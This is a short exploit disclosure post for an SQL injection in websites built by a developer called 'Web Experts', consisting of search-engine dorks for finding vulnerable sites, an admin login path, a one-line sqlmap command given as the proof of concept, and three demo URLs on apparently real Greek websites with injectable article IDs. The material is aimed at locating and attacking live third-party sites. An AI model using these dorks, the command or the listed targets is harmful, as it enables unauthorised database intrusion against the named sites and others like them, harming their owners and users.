 # Exploit Title:Designed and Developed by Web Experts SQL Injection
# Date:02.06.2019
# Dork1:intext:Designed and Developed by Web Experts inurl:english/article.php?id=
# Dork2:inurl:english/article.php?id= 
# Tested on:Windows

Reverse check bing.com

# Admin control panel path

site.com/administration/login.php

# Poc:
sqlmap.py –u “URL” --batch

#Demo
https://fgm.com.gr/english/article.php?id=31
 

https://www.dancearchive.gr/english/article.php?id=6
 


https://sotiriadelli.gr/article.php?id=8
 
